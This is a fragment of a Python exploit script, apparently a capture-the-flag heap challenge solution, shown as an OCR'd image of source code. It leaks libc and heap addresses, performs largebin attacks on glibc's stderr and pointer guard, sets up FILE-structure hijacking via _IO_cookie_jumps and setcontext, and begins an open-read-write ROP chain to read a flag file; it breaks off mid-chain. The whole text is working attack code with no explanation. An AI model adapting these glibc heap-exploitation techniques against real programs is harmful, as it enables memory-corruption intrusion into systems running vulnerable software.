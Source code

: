 ```python
add(3,0x410)
delete(2)
add(4,0x430)
show(2)
run()
io.recvuntil("Del Done\nMalloc Done\n")
libc_base=u64(io.recv(6).ljust(8,b"\x00"))-0x1f30b0
logv("libc_base",hex(libc_base))
pop_rdi=libc_base+0x2daa2
pop_rsi=libc_base+0x37c0a
pop_rdx_r12=libc_base+0x1066e1
pop_rax=libc_base+0x446c0
syscall=libc_base+0x883b6 
stderr=libc_base+libc.sym["stderr"]
setcontext=libc_base+libc.sym["setcontext"]
open_addr=libc_base+libc.sym["open"]
read_addr=libc_base+libc.sym["read"]
write=libc_base+libc.sym["write"]

_IO_cookie_jumps = libc_base + 0x1f3ae0
guard = libc_base+ 0x2cc770
#----------------------------------leak heap
edit(2,b'a'*0x10)
show(2)
run()
io.recvuntil("a"*0x10)
heap_base=u64(io.recv(6).ljust(8,b"\x00"))-0x2ae0
logv("heap",hex(heap_base))
#----------------------------------largein attack stderr 
delete(0)
payload = p64(libc_base + 0x1f30b0)*2 + p64(heap_base +0x2ae0) + p64(stderr - 0x20)
edit(2,payload)
add(5,0x430)
edit(2, p64(heap_base + 0x22a0) + p64(libc_base + 0x1f30b0) + p64(heap_base + 0x22a0) * 2)
edit(0, p64(libc_base + 0x1f30b0) + p64(heap_base + 0x2ae0) * 3)
add(0, 0x410)
add(2, 0x420)
run()   
#----------------------------------largebin attack guard , TLS 地址偏移不固定，直接手改吧
delete(2)
add(6,0x430)
delete(0)
edit(2, p64(libc_base + 0x1f30b0) * 2 + p64(heap_base + 0x2ae0) + p64(guard - 0x20))
add(7, 0x450)
edit(2, p64(heap_base + 0x22a0) + p64(libc_base + 0x1f30b0) + p64(heap_base + 0x22a0) * 2)
edit(0, p64(libc_base + 0x1f30b0) + p64(heap_base + 0x2ae0) * 3)
add(2, 0x420)
add(0, 0x410)
run()
delete(7)
add(8, 0x430)
edit(7,b'a' * 0x438 + p64(0x300))
run()
#----------------------------------写 orw
flag = heap_base + 0x22a0 + 0x260
orw = p64(pop_rdi)+p64(flag)
orw+= p64(pop_rsi)+p64(0)
orw+= p64(pop_rax)+p64(2)
orw+= p64(syscall)

orw+= p64(pop_rdi)+p64(3)
orw+= p64(pop_rsi)+p64(heap_base+0x1050)
orw+= p64(pop_rdx_r12)+p64(0x30)+p64(0)
```